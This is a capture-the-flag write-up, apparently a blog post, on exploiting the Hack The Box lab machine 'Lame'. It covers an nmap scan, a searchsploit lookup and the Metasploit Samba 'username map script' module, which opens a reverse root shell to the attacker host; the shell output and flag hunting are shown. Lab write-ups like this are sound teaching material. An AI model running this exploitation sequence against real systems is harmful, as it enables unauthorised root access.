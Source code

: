 ```yaml
---
layout: post
title: HackTheBox - Lame
description: "Solution to box Lame from HackTheBox"
category: hackthebox,ctf
---
```



Lame is a beginner friendly machine from Hack The Box. It is directly exploitable with the Metasploit module **exploit/multi/samba/usermap_script**. This exploit not only opens a shell session, but it does it as root. From there, it's just a matter of getting the flags.

Pretty straightforward, let's dive in.



## Attack Narrative



### Active Information Gathering

I start with a simple port scan with default scripts.

```
root@kali:~/htb/boxes/Lame# nmap -Pn -n --open -sC -oA nmap-scan 10.10.10.3
Starting Nmap 7.70 ( https://nmap.org ) at 2018-08-18 18:37 -03
Nmap scan report for 10.10.10.3
Host is up (0.25s latency).
Not shown: 996 filtered ports
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT    STATE SERVICE
21/tcp  open  ftp
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.14
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp  open  ssh
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
Host script results:
|_clock-skew: mean: -2d22h05m42s, deviation: 0s, median: -2d22h05m42s
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   NetBIOS computer name: 
|   Workgroup: WORKGROUP\x00
|_  System time: 2018-08-15T13:32:20-05:00
|_smb2-time: Protocol negotiation failed (SMB2)

Nmap done: 1 IP address (1 host up) scanned in 128.91 seconds
```

SMB services are usually prone to multiple vulnerabilities, so this helps me prioritize:

- First, I'll check for vulnerabilities in SMB. I have the version: `Samba 3.0.20-Debian`.
- Second in the list is obviously FTP. I can log in anonymously, and I also have the version of the application: `vsFTPd 2.3.4`.
- Lastly, I'll check for ssh on port 22, while waiting for a full scan. 



### Vulnerability Scanning

I start scanning for vulnerabilities in the services by using plain Google and a utility called `searchsploit`.

This is what I find in `searchsploit`:

```
root@kali:~/htb/boxes/Lame# searchsploit Samba 3.0.20
... SNIP ...
Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)
Samba < 3.0.20 - Remote Heap Overflow
... SNIP ...
Shellcodes: No Result
root@kali:~/htb/boxes/Lame# 
```

I'm looking for something like the first one. The target machine seems to be vulnerable, given the fact that it's a Linux machine running `Samba 3.0.20`. 



### Exploitation - w00t, w00t!

According to rapid7, the module for Samba "username map script" Command Execution has *excellent* reliabilty. This is what I'm looking for: in case the exploit fails it won't crash the machine. 

Time to fire `msfconsole` and load the module.

```
msf > use exploit/multi/samba/usermap_script 
msf exploit(multi/samba/usermap_script) > show options

Module options (exploit/multi/samba/usermap_script):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   RHOST                   yes       The target address
   RPORT  139              yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf exploit(multi/samba/usermap_script) > set RHOST 10.10.10.3
RHOST => 10.10.10.3

```



Everything seems to be in place, but it's always good to double check:

```
msf exploit(multi/samba/usermap_script) > show options

Module options (exploit/multi/samba/usermap_script):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   RHOST  10.10.10.3       yes       The target address
   RPORT  139              yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Automatic

```



And, I run `exploit` to execute it.

```
msf exploit(multi/samba/usermap_script) > exploit

[*] Started reverse TCP double handler on 10.10.14.14:443 
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo HzmgB07WVuZ8kBhR;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "sh: line 2: Connected: command not found\r\nsh: line 3: Escape: command not found\r\nHzmgB07WVuZ8kBhR\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (10.10.14.14:443 -> 10.10.10.3:44289) at 2018-12-03 19:08:11 -0300

id
uid=0(root) gid=0(root)
hostname
lame
ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 16436 qdisc noqueue 
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast qlen 1000
    link/ether 00:50:56:bf:36:b8 brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.3/24 brd 10.10.10.255 scope global eth0
    inet6 dead:beef::250:56ff:febf:36b8/64 scope global dynamic 
       valid_lft 86371sec preferred_lft 14371sec
    inet6 fe80::250:56ff:febf:36b8/64 scope link 
       valid_lft forever preferred_lft forever

```



Success! I'm in, and as root. Now getting the flags is trivial.

```
find / -name user.txt 2>/dev/null
/home/makis/user.txt
find / -name root.txt 2>/dev/null
/root/root.txt
```



And the result, which I reveal partially.

```
cat /home/makis/user.txt
---------------0225ea00acd2e84c5
cat /root/root.txt
---------------09e45721348a4e9df
```



## Conclusion

Very easy to pwn box, ideal for beginners and to learn to use Metasploit. It was fun, and I wonder what other ways one could access it. 

As always, thanks for reading and keep hacking!



###### References

[Rapid7](https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script)